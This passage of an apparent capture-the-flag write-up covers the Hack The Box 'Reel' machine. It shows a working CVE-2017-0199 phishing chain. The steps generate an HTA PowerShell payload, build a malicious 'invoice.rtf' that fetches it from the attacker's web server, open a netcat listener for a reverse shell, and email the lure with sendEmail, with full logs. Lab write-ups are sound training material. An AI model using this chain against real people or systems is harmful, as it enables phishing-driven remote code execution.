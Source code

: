 ```
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7295 bytes
Saved as: msfv.hta
```
The next step is to create `RTF` file which will be sent to `nico@megabank.com`  to create the phishing mail i will use  [github](https://github.com/bhdresh/CVE-2017-0199.git)
```
┌──(gemstone㉿hashghost)-[~/…/Machines/vip/reel/exploit]
└─$ python2 CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.5/msfv.hta -t rtf -x 0 
Generating normal RTF payload.

Generated invoice.rtf successfully
```
### Sending email.
To send to user `nico@megabank.com` you need to host the `hta` file in my case i will host it with `python3 -m http.server 80` then i will send email manually by using `sendEmail` which contains the `rtf` malicious file. Here are the steps

1. Hosting the file to be sent to user `nico`
```
┌──(gemstone㉿hashghost)-[~/…/Machines/vip/reel/exploit]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
2. Start a listener by using `netcat`
```
┌──(gemstone㉿hashghost)-[~/…/htb/Machines/vip/reel]
└─$ nc -nlvp 1234
```
3. Send the email by using `sendEmail` 

**Command**
```
┌──(gemstone㉿hashghost)-[~/…/Machines/vip/reel/exploit]
└─$ sendEmail -f hashghost@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a invoice.rtf -s 10.10.10.77 -v
```
**General results** 

The effect should be seen to all the requests made after sending the email with attachment.
1. After sending the email should you will see some similar outputs as follows
```
Jan 05 02:20:33 hashghost sendEmail[20396]: DEBUG => Connecting to 10.10.10.77:25
Jan 05 02:20:34 hashghost sendEmail[20396]: DEBUG => My IP address is: 10.10.14.5
Jan 05 02:20:34 hashghost sendEmail[20396]: SUCCESS => Received:        220 Mail Service ready
Jan 05 02:20:34 hashghost sendEmail[20396]: INFO => Sending:    EHLO hashghost
Jan 05 02:20:34 hashghost sendEmail[20396]: SUCCESS => Received:        250-REEL, 250-SIZE 20480000, 250-AUTH LOGIN PLAIN, 250 HELP
Jan 05 02:20:34 hashghost sendEmail[20396]: INFO => Sending:    MAIL FROM:<hashghost@megabank.com>
Jan 05 02:20:35 hashghost sendEmail[20396]: SUCCESS => Received:        250 OK
Jan 05 02:20:35 hashghost sendEmail[20396]: INFO => Sending:    RCPT TO:<nico@megabank.com>
Jan 05 02:20:35 hashghost sendEmail[20396]: SUCCESS => Received:        250 OK
Jan 05 02:20:35 hashghost sendEmail[20396]: INFO => Sending:    DATA
Jan 05 02:20:35 hashghost sendEmail[20396]: SUCCESS => Received:        354 OK, send.
Jan 05 02:20:35 hashghost sendEmail[20396]: INFO => Sending message body
Jan 05 02:20:35 hashghost sendEmail[20396]: Setting content-type: text/plain
Jan 05 02:20:35 hashghost sendEmail[20396]: DEBUG => Sending the attachment [invoice.rtf]
Jan 05 02:20:47 hashghost sendEmail[20396]: SUCCESS => Received:        250 Queued (11.937 seconds)
Jan 05 02:20:47 hashghost sendEmail[20396]: Email was sent successfully!  From: <hashghost@megabank.com> To: <nico@megabank.com> Subject: [Invoice Attached] Attachment(s): [invoice.rtf] Server: [10.10.10.77:25]
```
2. To the python server the request should return a hit with valid response.